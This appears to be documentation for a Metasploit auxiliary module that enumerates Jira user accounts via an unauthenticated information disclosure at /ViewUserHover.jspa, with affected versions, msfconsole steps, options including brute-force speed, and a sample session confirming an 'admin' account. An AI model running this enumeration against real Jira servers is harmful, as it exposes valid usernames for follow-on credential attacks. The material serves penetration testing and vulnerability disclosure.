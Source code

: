 ## Vulnerable Application

  [Jira](https://www.atlassian.com/software/jira) Jira is team managment software for agile teams.

  This module has been tested successfully on:

   * Jira version 8.4.1 on Ubuntu Linux.
   * Jira version 8.4.1 on Kali Linux.
   * Jira version 8.5.6 on Ubuntu Linux.
   * Jira version 8.10.1 on Ubuntu Linux.
   * Jira version 8.11.0 on Ubuntu Linux

  Installers:

  * [Jira Installers](https://www.atlassian.com/software/jira/core/updateatlassian-jira-software-8.4.1.tar.gz)
  * [Jira Installers Archive] (https://www.atlassian.com/software/jira/download-archives)

### Description

  The module exploits an information disclosure vulnerability to allow an unauthenticated user to enumerate /ViewUserHover.jspa endpoint.
  This only affects Jira versions < 7.13.16, 8.0.0 ≤ version < 8.5.7, 8.6.0 ≤ version < 8.11.1
  Discovered by Mikhail Klyuchnikov @__mn1__
  https://twitter.com/ptswarm/status/1318914772918767619

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/scanner/http/jira_user_enum`
  3. Do: `set rhosts [IP]`
  4. Do: `set SSL true`
  5. Do: `set RPORT 443`
  6. Do: `set USERNAME <username to test>
  7. Do: `run`
  8. You should find out if the user exists or not


## Options

- BRUTEFORCE_SPEED - How fast to bruteforce, from 0 to 5
- RHOSTS - The Target host(s)
- RPORT - Remote port hosting the Jira Application
- TAREGETURI - Path to Jira install on the webserver
- USERNAME - single username to attempt to enumerate
- USER_FILE - File of usernames to attempt to enumerate


## Scenarios

```
  msf6 > use auxiliary/scanner/http/jira_enum_users 
  msf6 auxiliary(scanner/http/jira_enum_users) > set rhosts 192.168.0.101
  rhosts => 192.168.0.101
  msf6 auxiliary(scanner/http/jira_enum_users) > set USERNAME admin
  msf6 auxiliary(scanner/http/jira_enum_users) > run

  [*] Begin enumerating users at 192.168.0.101/secure/ViewUserHover.jspa?username=
  [*] checking user admin
  [+] 'User exists: admin'
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf6 auxiliary(scanner/http/jira_enum_users) > creds
  Credentials
  ===========

  host           origin         service         public   private  realm  private_type  JtR Format
  ----           ------         -------         ------   -------  -----  ------------  ----------
  192.168.0.101  192.168.0.101  443/tcp (jira)  admin                                

```
